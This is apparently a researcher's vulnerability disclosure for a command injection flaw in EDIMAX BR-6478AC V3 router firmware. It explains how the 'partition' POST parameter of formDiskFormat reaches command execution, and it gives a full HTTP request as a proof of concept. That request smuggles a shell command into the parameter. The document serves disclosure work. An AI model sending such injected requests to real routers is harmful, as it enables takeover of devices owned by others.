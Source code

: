 # EDIMAX RCE
**discription**: a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0045c97c function and systype in /bin/boa
## Firmware
**brand**:edimax  
**product**:AC1200 Wave 2 Dual-Band Gigabit Router  
**version**:BR-6478AC V3  

The firmware can be download in this website[1] and using FirmAE to simulate the router environment.   
The result of simulating as follow: 
![alt text](image-6.png)
using ghidra we can konw the page is formDiskFormat
![alt text](image-4.png)


## analyze
Using ghidra we can konw that the post parameter "partition" will be sprintf as the second input parameter which will be executed
![alt text](image-7.png)
The detail of function as follow:

**addr**:0045ca18  
**function**: FUN_0045c97c   
**parameter**:systype,partition


# poc
burp suite change the packet as follow
```
POST /boafrm/formDiskFormat HTTP/1.1

Host: 192.168.2.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 82

Origin: http://192.168.2.1

Connection: close

Referer: http://192.168.2.1/diskformat.htm

Cookie: webuicookie=16041636021804289383

Upgrade-Insecure-Requests: 1



Apply+Changes=Apply+Changes&submit_url=%2Fdiskinfo.htm&systype=ext2&partition=sda1/n echo 123 > /tmp/poc.txt
```
the result of poc as follow,you can find the /tmp/poc.txt was create after poc
![alt text](image-3.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3

